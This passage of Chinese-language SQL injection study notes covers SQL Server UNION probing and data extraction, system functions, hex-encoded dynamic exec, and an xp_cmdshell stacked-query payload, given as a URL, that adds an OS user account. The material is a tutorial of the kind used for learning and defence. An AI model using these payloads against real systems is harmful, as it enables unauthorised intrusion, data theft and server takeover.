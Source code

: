 ### 四、UNION查询
UNION关键字将两个或更多个查询结果组合为单个结果集，俗称联合查询。    
有两个基本规则：所有查询中的列数必须相同；数据类型必须兼容。         
#### 4.1 联合查询探测字段数
递归查询，知道无错误产生，可得知User表查询的字段数：  
```sql
union select null,null
union select null,null,null
```   
也有人喜欢使用select 1,2,3语句，不过该语句容易出现类型不兼容的异常。
#### 4.2 联合查询敏感信息
如果得知列数为4，可以使用以下语句继续注入
```sql
id=5 union select 'x',null,null,null from sysobject where xtype='U'
```  
递归更换x的位置，直到语句执行正常，代表数据类型兼容，就可以将x换为SQL语句，查询敏感信息。             
备注：UNION和UNION ALL最大的区别在于UNION会自动去除重复的数据，并且按照默认规则排序。             

### 五、函数
SQL Server提供了非常多的系统函数，利用该系统函数可以访问SQL Server系统表中的信息，而无须使用SQL语句查询。           
例如，select db_name()：返回数据库名称               

### 六、危险的存储过程
存储过程（Stored Procedure）是在大型数据库系统中为了完成特定功能的一组SQL“函数”，如：执行系统命令，查看注册表，读取磁盘目录等。             
攻击者最常使用的存储过程是“xp_cmdshell”，这个存储过程允许用户执行操作系统命令。                 
例如：http://www.secbug.org/test.aspx?id=1存在注入点，那么攻击者就可以实施命令攻击：                     
http://www.secbug.org/test.aspx?id=1;exec xp_cmdshell 'net user test test /add'              
最终执行SQL语句如下：
```sql
select * from table where id=1; exec xp_cmdshell 'net user test test /add'
``` 
攻击者可以直接利用xp_cmdshell操纵服务器。       
注：并不是任何数据库用户都可以使用此类存储过程，用户必须持有 CONTROL SERVER权限。            

存储过程仅存在于MSSQL和Oracle中，MySQL中类似的功能是UDF。             


### 七、动态执行
SQL Server支持动态执行语句，用户可以提交一个字符串来执行SQL语句。            
exec('select username,password from users')              
也可以通过定义十六进制的SQL语句，使用exec函数执行。          
declare @query varchar(888)         
select @query=0x73656c6563742031       
exec(@query)



## 2.mysql
### 一、mysql中的注释

①：#：行注释。
